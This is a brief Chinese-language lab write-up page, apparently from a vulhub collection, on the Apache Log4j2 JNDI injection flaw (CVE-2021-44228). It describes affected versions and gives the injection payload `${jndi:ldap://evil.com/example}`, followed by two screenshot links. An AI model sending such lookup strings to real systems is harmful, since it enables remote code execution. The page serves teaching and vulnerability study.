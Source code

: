 渗透过程

> Apache Log4j2 是 Java 语言的日志处理套件，使用极为广泛。在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于 `${jndi:ldap://evil.com/example}` 的 lookup 用于进行 JNDI 注入，执行任意代码

![渗透过程 (1)](./../../../../../images/vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E6%B8%97%E9%80%8F%E8%BF%87%E7%A8%8B%20(1).png)

![渗透过程 (2)](./../../../../../images/vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E6%B8%97%E9%80%8F%E8%BF%87%E7%A8%8B%20(2).png)
